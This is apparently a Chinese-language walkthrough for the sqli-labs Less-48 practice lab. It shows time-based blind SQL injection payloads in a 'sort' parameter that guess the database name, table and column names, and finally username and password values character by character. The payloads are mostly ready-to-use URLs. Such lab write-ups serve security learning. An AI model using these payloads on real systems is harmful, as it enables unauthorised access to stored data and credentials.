







# Less - 48

---

# 通关教程

---

## 1、判断闭合

---

```http
?sort=1--+
```

​​

```http
?sort=1'--+
```

​​

---

## 2、查看当前数据库长度

---

```http
http://192.168.23.128/sqli-labs/Less-47/?sort=1 and if(length(database())=8,1,sleep(2))--+
```

​​​

​页面快速反应，证明当前数据库长度为8

---

## 3、查看当前数据库的第一个字母

---

```http
http://192.168.23.128/sqli-labs/Less-48/?sort=1 and if(substr(database(),1,1)='s',1,sleep(2))--+
```

​​

页面快速反应，证明当前库的第一个字母为s，更改substr函数的索引依次往后面猜解

---

## 4、查看当前库下的第一张表的第一个字母

---

```http
http://192.168.23.128/sqli-labs/Less-48/?sort=1 and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',1,sleep(2))--+
```

​​

页面快速反应，证明当前库下的第一张表的第一个字母为e，更改substr函数的索引依次往后面猜解

---

## 5、查看users表下的第一个字段下的第一个字母

---

```http
http://192.168.23.128/sqli-labs/Less-48/?sort=1 and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u',1,sleep(2))--+
```

​​

页面快速反应，证明users表下的第一个字段的第一个字母为u，更改substr函数的索引依次往后面猜解

---

## 6、查看username,password字段下的第一个值的第一个字母

---

```http
http://192.168.23.128/sqli-labs/Less-48/?sort=1 and if(substr((select group_concat(username,password) from security.users limit 0,1),1,1)='d',1,sleep(2))--+
```

​​

‍
